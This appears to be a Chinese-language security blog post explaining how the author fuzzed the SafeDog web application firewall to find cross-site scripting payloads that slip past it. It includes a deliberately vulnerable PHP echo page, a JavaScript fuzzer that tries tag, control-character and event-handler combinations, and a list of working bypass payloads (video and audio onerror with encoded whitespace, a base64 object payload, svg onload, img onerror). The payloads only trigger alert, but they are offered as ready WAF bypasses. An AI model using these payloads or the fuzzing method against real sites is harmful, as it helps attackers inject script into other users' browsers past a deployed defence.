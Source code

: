 ```yaml
---
title: 一次bypass安全狗xss的fuzz思路及实现
date: 2019-10-11 17:18:00
layout: post
tags:
- bypass
- xss

---
```


> 在看到key发出的fuzz出的严重的真的是柠檬了，突然想到了key的小密圈的xss bypass safedog，于是就想出来试试fuzz来bypass安全狗的xss防护规则，于是有了这个比较菜的文章

#### 思路

&emsp;&emsp;XSS本质上是JS，但JS代码往往要在`<script>`标签内或者在 "On" 事件和 "javascript" 伪协议内才可以执行，往往挖掘XSS的时候我们会插入一个标签来测试是否过滤了`<`、`>`，来进行下一步操作。然后用js去动态添加iframe，src为fuzz xss的地址，通过alert的数字来定位payload

所以我们首先是需要了解HTML标签的结构，可以查看前面的 [浏览器渲染原理](http://console-log.cn/2017/06/20/browser_running_view/) 
标签由`<`、`标签名`、`控制字符`、`属性名`、`数据值`、`事件名`、`事件值`、`>`构成（我觉得，如果存在错误的话谅解一下）On 事件实际是事件名
##### 开始表演
>标签表达式: <标签名 控制字符 属性名="数据值" 控制字符 事件名="事件值">

将这些标签名 控制字符 属性名 数据值 事件名 事件值放在数组上以便使用

#### FUZZING
我在本地搭建了好了环境
php文件: `index.php`:
```
<?php
echo $_GET[fuzz];
?>
```
dog:
![dog](./img/5.jpg)

通过burp来测试一下安全狗过滤了哪些标签
![labs](./img/1.jpg)

发现有这些标签是没有被过滤的
>a
b
q
br
dd
dl
dt
h1
h2
h3
h4
h5
h6
hr
bdi
bdo
big
del
dfn
dir
div
kbd
map
var
wbr
abbr
area
base
body
head
html
main
mark
menu
meta
aside
audio
meter
video
applet
button
dialog
header
keygen
acronym
address
article
details
basefont
datalist
menuitem
blockquote

##### 控制字符：
>%09
%00
%0d
%0a

太多就放这几个就可以了

属性名：
>onload
onerror

同上

然后我们使用js来动态添加iframe来加载我们的payload
code：
```
var i,j,k,xss,f=0;
var ons = ["onload","onerror"];
var labs = ["a","b","q","br","dd","dl","dt","h1","del","abbr","video","base","audio","details"];
var hexs= ["%09","%00","%0d","%0a"];
for(i=0;i<labs.length;i++){
    for(j=0;j<hexs.length;j++){
        for(k=0;k<ons.length;k++){
            xss = f+'<'+labs[i]+hexs[j]+ons[k]+"=alert("+f+") src=a>a";
            var body = document.getElementsByTagName("body");
            var div = document.createElement("div");
            div.innerHTML = f+"<iframe src=\"http://127.0.0.1/index.php?fuzz="+xss+"\"></iframe>";
            document.body.appendChild(div);
            f = f+1;
        }
    }
}

```

我这边选取了几个标签和事件还有控制字符，因为太多的话请求过大，事件太久了，证明一下思路即可

因为很多`onload`、`onerror`都是和`src`属性名配合使用的，所以我在xss payload标签山添加了src

然后放在浏览器测试：
![xss](./img/2.jpg)
很快我们就收获了几个可以绕过安全狗的xss payload
然后更具alert出来的值快速定位payload地址 得到了两个标签下的payload
```
<video%09onerror=alert(81) src=a>
<video%0donerror=alert(85) src=a>
<audio%09onerror=alert(97) src=a>
<audio%0donerror=alert(101) src=a>
<audio%0aonerror=alert(103) src=a>
```
还有没复制全，证明了一下这个思路是可行的，而且我们也收获了一些bypass safedog的xss payload

附赠几个payload：
```
<dd%09onclick=alert(1)>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg>
<img/11111111111111111111111111111/src=x/onerror=alert(1)>
<input onclick=alert(1) value=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>
```





